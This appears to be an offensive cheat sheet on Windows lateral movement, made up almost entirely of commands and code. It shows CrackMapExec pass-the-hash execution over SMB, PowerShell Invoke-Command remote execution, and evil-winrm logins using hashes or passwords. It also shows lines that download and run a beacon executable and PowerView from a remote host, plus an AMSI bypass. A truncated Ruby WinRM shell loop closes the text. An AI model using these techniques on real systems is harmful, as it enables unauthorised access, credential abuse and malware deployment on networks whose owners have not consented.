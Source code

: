 ## Crackmapexec

```powershell
root@payload$ git clone https://github.com/byt3bl33d3r/CrackMapExec.github
root@payload$ cme smb 192.168.1.100 -u Administrator -H ":5858d47a41e40b40f294b3100bea611f" -x 'whoami' # cmd
root@payload$ cme smb 192.168.1.100 -u Administrator -H ":5858d47a41e40b40f294b3100bea611f" -X 'whoami' # powershell
root@payload$ cme smb 192.168.1.100 -u Administrator -H ":5858d47a41e40b40f294b3100bea611f" --exec-method atexec -x 'whoami'
root@payload$ cme smb 192.168.1.100 -u Administrator -H ":5858d47a41e40b40f294b3100bea611f" --exec-method wmiexec -x 'whoami'
root@payload$ cme smb 192.168.1.100 -u Administrator -H ":5858d47a41e40b40f294b3100bea611f" --exec-method smbexec -x 'whoami'
```

## Remote Code Execution with PS Credentials

```powershell
PS C:\> $SecPassword = ConvertTo-SecureString 'secretpassword' -AsPlainText -Force
PS C:\> $Cred = New-Object System.Management.Automation.PSCredential('DOMAIN\USERNAME', $SecPassword)
PS C:\> Invoke-Command -ComputerName DC01 -Credential $Cred -ScriptBlock {whoami}
PS C:\> New-PSSESSION -NAME PSDC -ComputerName COMPUTER01; Invoke-Command -ComputerName COMPUTER01 -ScriptBlock {whoami}
PS C:\> Invoke-Command -ComputerName COMPUTER01 -ScriptBlock {powershell Invoke-WebRequest -Uri 'http://10.10.10.10/beacon.exe' -OutFile 'C:\Temp\beacon.exe'; Start-Process -wait C:\Temp\beacon.exe}
```

## WinRM

Require:
* Port **5985** or **5986** open.
* Default endpoint is **/wsman**

```powershell
root@payload$ git clone https://github.com/Hackplayers/evil-winrm
root@payload$ evil-winrm -i IP -u USER [-s SCRIPTS_PATH] [-e EXES_PATH] [-P PORT] [-p PASS] [-H HASH] [-U URL] [-S] [-c PUBLIC_KEY_PATH ] [-k PRIVATE_KEY_PATH ] [-r REALM]
root@payload$ ruby evil-winrm.rb -i 192.168.1.100 -u Administrator -p 'MySuperSecr3tPass123!' -s '/home/foo/ps1_scripts/' -e '/home/foo/exe_files/'
root@payload$ ruby evil-winrm.rb -i 10.0.0.20 -u username -H BD1C6503987F8FF006296118F359FA79
root@payload$ ruby evil-winrm.rb -i 10.0.0.20 -u username -p password -r domain.local

*Evil-WinRM* PS > Bypass-4MSI
*Evil-WinRM* PS > IEX([Net.Webclient]::new().DownloadString("http://127.0.0.1/PowerView.ps1"))
```

or using a custom ruby code to interact with the WinRM service.

```ruby
require 'winrm'

conn = WinRM::Connection.new( 
  endpoint: 'http://ip:5985/wsman',
  user: 'domain/user',
  password: 'password',
)

command=""
conn.shell(:powershell) do |shell|
    until command == "exit\n" do
        print "PS > "
        command = gets        
        output = shell.run(command) do |stdout, stderr|
```

[DC01]: PS>